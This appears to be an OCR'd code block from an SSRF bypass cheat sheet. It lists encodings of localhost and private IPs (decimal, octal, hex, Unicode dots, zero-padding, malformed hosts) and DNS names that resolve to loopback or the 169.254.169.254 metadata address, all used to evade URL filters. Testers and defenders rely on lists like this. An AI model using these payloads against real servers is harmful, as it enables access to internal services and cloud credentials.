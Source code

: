         # CDIR bypass
        <http://127.127.127.127>
        <http://127.0.1.3>
        <http://127.0.0.0>
        
        # Dot bypass
        127。0。0。1
        127%E3%80%820%E3%80%820%E3%80%821
        
        # Decimal bypass
        <http://2130706433/> = <http://127.0.0.1>
        <http://3232235521/> = <http://192.168.0.1>
        <http://3232235777/> = <http://192.168.1.1>
        
        # Octal Bypass
        <http://0177.0000.0000.0001>
        <http://00000177.00000000.00000000.00000001>
        <http://017700000001>
        
        # Hexadecimal bypass
        127.0.0.1 = 0x7f 00 00 01
        <http://0x7f000001/> = <http://127.0.0.1>
        <http://0xc0a80014/> = <http://192.168.0.20>
        0x7f.0x00.0x00.0x01
        0x0000007f.0x00000000.0x00000000.0x00000001
        
        # Add 0s bypass
        127.000000000000.1
        
        # You can also mix different encoding formats
        # <https://www.silisoftware.com/tools/ipconverter.php>
        
        # Malformed and rare
        localhost:+11211aaa
        localhost:00011211aaaa
        <http://0/>
        <http://127.1>
        <http://127.0.1>
        
        # DNS to localhost
        localtest.me = 127.0.0.1
        customer1.app.localhost.my.company.127.0.0.1.nip.io = 127.0.0.1
        mail.ebc.apple.com = 127.0.0.6 (localhost)
        127.0.0.1.nip.io = 127.0.0.1 (Resolves to the given IP)
        www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us = Resolves to www.google.com
        <http://customer1.app.localhost.my.company.127.0.0.1.nip.io>
        <http://bugbounty.dod.network> = 127.0.0.2 (localhost)
        1ynrnhl.xip.io == 169.254.169.254
        spoofed.burpcollaborator.net = 127.0.0.1
        ```
        